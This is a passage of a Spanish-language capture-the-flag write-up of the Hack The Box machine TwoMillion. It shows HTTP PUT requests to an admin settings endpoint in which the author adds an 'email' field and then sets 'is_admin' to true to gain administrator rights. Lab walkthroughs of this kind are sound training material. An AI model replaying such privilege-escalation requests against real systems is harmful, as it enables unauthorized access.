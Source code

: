 ![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-13.png)

Ahora vemos que la web se está quejando de que falta un parámetro `email`, por lo que lo añadimos también en la petición:

```
PUT /api/v1/admin/settings/update HTTP/1.1
...
Content-Type: application/json
...
{
	"email":"test@test.com"
}
```

![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-14.png)

De nuevo vemos que la web se queja, pero esta vez porque falta un parámetro `ìs_admin`, que entendemos que debería ser un valor booleano, por lo que le pongo `true`:

```
PUT /api/v1/admin/settings/update HTTP/1.1
...
Content-Type: application/json
...
{
	"email":"test@test.com",
	"is_admin": true
}
```

![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-15.png)

